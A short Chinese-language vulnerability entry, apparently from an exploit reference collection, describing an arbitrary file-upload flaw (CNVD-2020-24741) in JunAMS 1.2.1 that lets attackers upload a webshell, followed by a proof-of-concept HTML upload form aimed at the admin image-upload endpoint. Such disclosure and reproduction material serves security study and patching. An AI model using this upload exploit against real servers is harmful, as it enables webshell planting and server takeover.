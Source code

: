 # 

# JunAms内容管理系统文件上传漏洞 CNVD-2020-24741

## 漏洞描述

JunAMS是一款以ThinkPHP为框架的开源内容管理系统。

JunAMS内容管理系统存在文件上传漏洞，攻击者可利用该漏洞上传webshell，获取服务器权限。

参考链接：

- https://www.cnvd.org.cn/flaw/show/CNVD-2020-24741

## 漏洞影响

```
JunAMS junAMS 1.2.1.20190403
```

## 漏洞复现

exp：

```
<form enctype="multipart/form-data" action="http://localhost//admin.php/common/add_images.html" method="post">  
<input type="file" name="file" size="50"><br>  
<input type="submit" value="Upload">  
</form>
```


